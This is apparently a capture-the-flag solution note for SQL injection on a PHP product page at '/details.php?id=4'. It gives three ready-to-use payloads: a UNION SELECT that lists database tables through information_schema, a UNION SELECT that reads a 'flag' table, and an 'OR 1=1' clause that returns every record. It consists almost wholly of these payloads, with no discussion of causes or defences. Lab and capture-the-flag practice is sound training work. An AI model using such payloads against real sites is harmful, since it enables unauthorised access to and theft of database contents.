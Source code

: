 SQL Injection
=============

The base URL is:

```
/details.php?id=4
```

Get all tables:

```sql
%20 UNION SELECT TABLE_NAME AS name, '' AS brand, '' AS variant, TABLE_SCHEMA AS color, 0 AS price, 0 AS inventory FROM information_schema.TABLES WHERE table_schema LIKE 'socks%'
```

Get the flag:

```sql
%20 UNION SELECT flag AS NAME, '' AS BRAND, '' AS VARIANT, '' AS COLOR, 0 AS price, 0 AS inventory FROM flag
```

Get all records:

```sql
%20 OR 1=1
```
